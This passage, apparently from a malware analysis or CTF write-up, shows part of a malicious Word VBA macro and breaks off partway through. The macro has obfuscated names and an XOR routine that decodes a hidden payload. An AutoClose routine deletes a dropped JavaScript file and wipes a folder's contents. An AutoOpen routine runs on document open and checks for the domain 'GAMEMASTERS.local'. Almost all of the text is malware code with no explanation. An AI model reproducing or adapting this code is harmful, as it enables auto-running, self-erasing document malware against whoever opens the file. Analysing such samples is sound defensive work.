 ![image](4.png)

```vba
Public IAiiymixt As String
Public kWXlyKwVj As String


Function JFqcfEGnc(given_string() As Byte, length As Long) As Boolean
Dim xor_key As Byte
xor_key = 45
For i = 0 To length - 1
given_string(i) = given_string(i) Xor xor_key
xor_key = ((xor_key Xor 99) Xor (i Mod 254))
Next i
JFqcfEGnc = True
End Function

Sub AutoClose() 'delete the js script'
On Error Resume Next
Kill IAiiymixt
On Error Resume Next
Set aMUsvgOin = CreateObject("Scripting.FileSystemObject")
aMUsvgOin.DeleteFile kWXlyKwVj & "\*.*", True
Set aMUsvgOin = Nothing
End Sub

Sub AutoOpen()
On Error GoTo MnOWqnnpKXfRO
Dim chkDomain As String
Dim strUserDomain As String
chkDomain = "GAMEMASTERS.local"
strUserDomain = Environ$("UserDomain")
```